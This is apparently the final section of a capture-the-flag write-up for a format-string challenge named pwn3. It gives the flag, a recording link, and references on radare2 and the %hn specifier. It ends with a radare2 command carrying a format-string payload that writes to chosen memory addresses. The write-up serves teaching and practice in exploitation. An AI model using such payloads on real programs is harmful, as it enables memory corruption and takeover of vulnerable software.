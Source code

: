 Answer: gigem{F0RM@1NG_1S_H4RD}

### Complete video

<a href="https://asciinema.org/a/8dtrs5jltesk48y8ch5ouwrkn?autoplay=1" target="_blank"><img src="https://asciinema.org/a/8dtrs5jltesk48y8ch5ouwrkn.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
 * [PicoCTF format string challenge](https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920)
 * [C is For C Programming - Cask J. Thomson (Fragment)](https://books.google.es/books?id=qeWyAAAAQBAJ&lpg=PA120&ots=Yk45UQR7EU&dq=Speci%EF%AC%81es%20that%20a%20following%20d%2C%20i%2C%20o%2C%20u%2C%20x%2C%20or%20X%20conversion%20speci%EF%AC%81er%20applies%20to%20a%20short%20int%20or%20unsigned%20short%20int%20argument%20(the%20argument%20will%20have%20been%20promoted%20according%20to%20the%20integer%20promotions%2C%20but%20its%20value%20shall%20be%20converted%20to%20short%20int%20or%20unsigned%20short%20int%20before%20printing)%3B%20or%20that%20a%20following%20n%20conversion%20speci%EF%AC%81er%20applies%20to%20a%20pointer%20to%20a%20short%20int%20argument.&hl=es&pg=PA120#v=onepage&q&f=false)


#### Some notes for the author

```bash
$ r2 -R "stdin=\"`python -c 'print(\"\x1e\xa0\x04\x08\x1c\xa0\x04\x08\" + \"%2044x%4$hn\" + \"%32167x%5$hn\")'`\"" -d pwn3
```
